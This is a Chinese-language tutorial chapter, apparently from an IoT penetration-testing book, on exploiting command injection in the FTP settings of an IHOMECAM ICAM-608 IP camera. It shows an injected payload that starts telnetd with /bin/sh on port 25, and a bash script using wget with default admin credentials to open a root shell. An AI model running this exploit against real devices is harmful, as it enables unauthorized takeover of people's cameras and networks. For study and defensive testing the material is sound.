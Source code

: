 ## 4.5 利用命令注入
在嵌入式系统中，操作系统命令注入是一个常见的漏洞，常常是由固件开发构建中为了执行OS命令而遗留的web接口和debug页面。用户通过在web接口的服务参数中提供命令来执行OS命令。一个动态设置且未正确校验的参数容易受到利用漏洞的影响。利用可以执行OS命令的能力，攻击者可以上传恶意固件，改变配置，获取设备的永久访问权，获取密码，攻击网络中的其他设备，或者甚至锁住设备的合法用户使用。本章中，我们将展示如何利用命令注入来获取设备的shell访问权限。

### 4.5.1 Getting ready

本节中，我们将使用tcpdump，Burp Suite, 和一个脆弱的IHOMECAM ICAM-608 IP 相机.Tcpdump 默认被安装在类Unix系统中，但是Wirewhark也可以用于观察包。

### 4.5.2 How to do it...

在嵌入式web应用中找可以命令注入的页面是非常重要的。我们想要第一个检测的web应用页面是使用系统命令的诊断页，如ping或者traceroute，也使用守护进程的配置设置页，例如SMB、PPTP或者FTP。如果我们已经获取固件或者目标设备的命令行访问权，最好静态分析设备执行的易受攻击的脚步和函数，并通过动态分析验证发现的潜在问题：

<br>&emsp;&emsp;&emsp;1. 我们观察一下我们的目标IP相机的配置菜单设置，以找到易受攻击的页面：

![](../img/4-5/4-5-2-1.png)

<br>&emsp;&emsp;&emsp;2. 我们没有几个页面可以选择，但是我们确实看到了邮箱服务和FTP服务设置页面。这些页面可能被注入命令到操作系统执行。我们首先测试FTP服务并尝试通过Burp Suite用系统命令来操作参数的值：

![](../img/4-5/4-5-2-2.png)

<br>&emsp;&emsp;&emsp;3. 当尝试在pwd参数中发送payload（ping%2012.168.1.184）看起来似乎被删除了一个字符，如下图所示：

![](../img/4-5/4-5-2-3.png)

<br>&emsp;&emsp;&emsp;4. 使用一个像ping这样的基本指令到我们的目标计算机，说明：我们的指令已经成功执行了。为了观察ping是否以及执行，设置tcpdump来监听来自目标IP相机的ICMP包，使用一下指令：

![](../img/4-5/4-5-2-4.png)

<br>&emsp;&emsp;&emsp;5. 使用Burp Suite的Repeater，我们可以改变payload的值，并通过客户端检查是否执行。使用下面的请求，我们可以看到一样接受了我们的改变并且需要基于响应刷新ftp.htm页面：

![](../img/4-5/4-5-2-5.png)

<br>&emsp;&emsp;&emsp;6. 刷新ftp.htm页面之后，我们观察被发送到我们主机的ICMP包：

![](../img/4-5/4-5-2-6.png)


<br>&emsp;&emsp;&emsp;7. 现在我们知道pwd参数容易被命令注入利用，我们的下一个目标是获取目标设备的shell访问权限，根据FTP的使用，我们知道IP相机包含遗留守护进程，机会是Telnet也被使用了。然后，我们将执行启动Telnet，端口为25，并且使用下面的payload，不需要用户名密码进入shell：

![](../img/4-5/4-5-2-7.png)

<br>&emsp;&emsp;&emsp;8. 我们也知道ftp.htm页面需要刷新来保存设置，但是查看页面源码，它是调用一个称为ftptest.cgi的CGI接口执行我们的payload，下面是ftp.htm页面中执行我们的payload的源码片段：

![](../img/4-5/4-5-2-8.png)

<br>&emsp;&emsp;&emsp;9. 接下来，我们可以使用下面的GET请求直接调用ftptest.cgi来保存设置：
![](../img/4-5/4-5-2-9.png)

<br>&emsp;&emsp;&emsp;10. Telnet运行在端口25上，并给我们一个root shell：

![](../img/4-5/4-5-2-10.png)

<br>&emsp;&emsp;&emsp;11. 在shell获取到之后，在设备的局域网中有许多种方法可以用来完成后利用操作。后利用技术本节不介绍；然而，我们可以使用以下的bash脚步轻松地完成我们的命令注入获取访问权限：

```shell
#!/bin/sh
            wget -q'-
            'http://192.168.1.177/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&l
            oginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -
            l/bin/sh)&dir=/&mode=PORT&upload_interval=0'
            wget -qO-
            'http://192.168.1.177/ftptest.cgi?next_url=test_ftp.htm&loginuse=ad
            min&loginpas=admin'
            telnet 192.168.1.177 25
```

在本节中，我们学习了在IHOMECAM ICAM-608相机上，命令注入的发现和利用。我们能够获取shell访问，并创建脚步自动完成命令注入利用。
### 4.5.3 See also

* 为了学习更多的命令注入发现和预防技术，可以参考OWASP的命令注入Wiki页面([https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection)), 也可以在OWASP的嵌入式应用安全项目([https://www.owasp.org/index.php/OWASP_Embedded_Application_Security](https://www.owasp.org/index.php/OWASP_Embedded_Application_Security))
